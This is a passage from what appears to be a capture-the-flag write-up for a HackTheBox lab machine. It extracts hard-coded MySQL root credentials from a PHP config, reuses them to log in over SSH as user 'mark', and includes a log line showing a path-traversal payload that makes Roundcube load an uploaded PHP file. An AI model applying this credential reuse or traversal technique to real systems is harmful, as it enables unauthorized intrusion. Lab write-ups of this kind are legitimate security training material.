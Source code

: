 $servername = "localhost";
$dBUsername = "root";
$dbPassword = "2020bestyearofmylife";
$dBName = "ems";

$conn = mysqli_connect($servername, $dBUsername, $dbPassword, $dBName);

if(!$conn){
        echo "Databese Connection Failed";
}

?>
```

|Username|Passsword|
|---|---|
|root|2020bestyearofmylife|

That password is way to ```obvious```, it's probably going to be reused.

Altough we are within a containter ```/etc/passwd``` reveals the user ```mark```

Lets test the credentials.

```
┌──(kali㉿kali)-[~]
└─$ ssh mark@seventeen.htb               
The authenticity of host 'seventeen.htb (10.10.11.165)' can't be established.
ED25519 key fingerprint is SHA256:g48H/Ajb4W/Ct4cyRPBjSfQksMfb0WSo3zZYJlr9jMk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'seventeen.htb' (ED25519) to the list of known hosts.
mark@seventeen.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jul 20 10:00:37 UTC 2022

  System load:                    0.85
  Usage of /:                     62.3% of 11.75GB
  Memory usage:                   57%
  Swap usage:                     0%
  Processes:                      361
  Users logged in:                0
  IP address for eth0:            10.10.11.165
  IP address for br-3539a4850ffa: 172.20.0.1
  IP address for docker0:         172.17.0.1
  IP address for br-b3834f770aa3: 172.18.0.1
  IP address for br-cc437cf0c6a8: 172.19.0.1


18 updates can be applied immediately.
12 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)